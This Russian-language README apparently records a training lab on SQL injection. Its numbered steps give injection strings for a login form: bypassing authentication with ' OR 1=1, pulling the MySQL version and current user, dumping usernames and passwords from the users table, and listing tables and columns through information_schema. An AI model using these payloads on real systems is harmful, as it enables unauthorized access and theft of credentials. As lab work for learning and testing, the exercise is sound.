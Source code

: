1. Список всех пользователей.
Инъекция: ' OR 1=1 #
![image](https://github.com/user-attachments/assets/be500567-e423-4c57-a012-9e362812fae5)
-
3. Узнать версию MySQL
Инъекция: ' UNION SELECT @@version, @@version # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/bc405aac-a85a-4cd3-8778-c3b4afcace6e)
4. Узнать пароли всех пользователей
Инъекция: ' UNION SELECT username,password FROM users;

![image](https://github.com/user-attachments/assets/523a0a88-3c0a-4652-b164-69b7ee49dc81)
5. Определить текущего пользователя базы данных
Инъекция: ' UNION SELECT CURRENT_USER(), CURRENT_USER() # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/2efacd00-cf7a-4dff-a4f6-a5287892a37c)
6. Извлечь имена таблиц из схемы базы данных
Инъекция: ' UNION SELECT table_name, table_name FROM information_schema.tables # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/533bd8a5-0105-4ad5-915e-7025aa41ce72)
![image](https://github.com/user-attachments/assets/38ba41ae-c7ba-4d29-a056-366be66cab1f)
![image](https://github.com/user-attachments/assets/105942ec-4130-4701-9c66-9cd26fbb830c)
![image](https://github.com/user-attachments/assets/8868d9d0-0a3b-438a-a764-d198915ae0e2)
![image](https://github.com/user-attachments/assets/9c44a0a9-7192-4999-9340-e975ec2390d2)
7. Получить список столбцов users таблицы
Инъекция: ' UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_name = 'users' # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/c32f533a-1d87-4bd1-9c6b-e14e20d861ed)

